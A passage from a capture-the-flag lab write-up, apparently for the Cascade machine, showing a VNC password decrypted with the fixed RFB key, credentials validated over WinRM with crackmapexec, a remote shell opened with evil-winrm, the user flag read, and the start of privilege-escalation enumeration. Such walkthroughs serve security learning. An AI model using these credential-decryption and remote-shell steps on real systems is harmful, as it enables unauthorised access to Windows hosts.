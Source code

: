     irb: warn: can't alias jobs from irb_jobs.
    >> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
    => "\u0017Rk\u0006#NX\a"
    >> require 'rex/proto/rfb'
    => false
    >> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
    => "sT333ve2"
    

### WinRM

With these creds, `crackmapexec` shows that it is possible to get a shell over
WinRM:

    
    
    root@kali# crackmapexec winrm 10.10.10.182 -u s.smith -p sT333ve2
    WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
    WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\s.smith:sT333ve2 (Pwn3d!)
    

I’ll use Evil-WinRM to get a shell:

    
    
    root@kali# evil-winrm -u s.smith -p sT333ve2 -i 10.10.10.182
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
                                                                                             
    *Evil-WinRM* PS C:\Users\s.smith\Documents>
    

The machine is actually Windows 2008:

    
    
    *Evil-WinRM* PS C:\Users\s.smith\desktop> [environment]::OSVersion.Version
    
    Major  Minor  Build  Revision
    -----  -----  -----  --------
    6      1      7601   65536
    

I can also grab `user.txt`:

    
    
    *Evil-WinRM* PS C:\Users\s.smith\desktop> cat user.txt
    d1c7e103************************
    

## Privesc: s.smith –> arksvc

### Enumeration

s.smith is a member of the `Audit Share` group:

    
    
    *Evil-WinRM* PS C:\shares\audit> net user s.smith
    User name                    s.smith
    Full Name                    Steve Smith
    Comment
    User's comment
    Country code                 000 (System Default)
    Account active               Yes
    Account expires              Never
    
